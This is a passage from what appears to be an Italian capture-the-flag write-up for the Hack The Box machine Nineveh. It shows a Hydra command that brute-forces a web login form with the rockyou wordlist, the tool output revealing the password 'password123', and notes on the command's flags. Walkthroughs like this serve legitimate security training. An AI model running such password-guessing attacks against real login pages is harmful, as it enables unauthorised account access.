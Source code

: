 Utilizziamo hydra

```bash
┌──(root㉿kali)-[/home/kali/htb/nineveh]
└─# hydra -l 'admin' -P /usr/share/wordlists/rockyou.txt nineveh.htb https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password."
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-23 03:58:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-forms://nineveh.htb:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true&Login=Login:Incorrect password.
[STATUS] 1341.00 tries/min, 1341 tries in 00:01h, 14343058 to do in 178:16h, 16 active
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-23 03:59:46


```

- -l: specifica il nome utente per essere admin.
- -P: specifica il file che contiene le password.
- http-post-form: stiamo inviando una richiesta POST.
- “….”: il contenuto tra virgolette specifica i parametri username/password da testare e il messaggio di login fallito.

Abbiamo una password valida! 
password123

Utilizziamo  password123 per accedere all'applicazione. 

![](../zzz_rev/attachments/nineveh7.png)
